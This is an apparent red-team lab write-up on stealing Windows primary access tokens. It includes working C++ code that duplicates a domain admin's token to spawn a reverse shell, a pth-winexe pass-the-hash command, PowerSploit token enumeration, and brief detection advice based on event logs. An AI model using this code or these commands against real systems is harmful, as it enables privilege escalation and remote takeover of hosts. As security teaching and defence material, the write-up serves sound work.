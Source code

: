 ```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step                                                         | Win32 API                 |
| ------------------------------------------------------------ | ------------------------- |
| Open a process with access token you want to steal           | `OpenProcess`             |
| Get a handle to the access token of that process             | `OpenProcesToken`         |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx`        |
| Create a new process with the newly aquired access token     | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 (interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command).&#x20;

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon (i.e psexec, winexec, pth-winexe, etc), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code title="attacker@local" %}
```
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode %}

which created a new process on the victim system with a PID of 4780:

![](../../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token (highlighted) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../../.gitbook/assets/token-new-logon-3.png)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](<../../.gitbook/assets/token-disasm (1).png>)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy.&#x20;

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../../.gitbook/assets/token-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly#-security-primary-token-gly" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671(v=vs.85).aspx" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617(v=vs.85).aspx" %}

{% embed url="https://www.youtube.com/watch?v=Ed_2BKn3QR8" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)
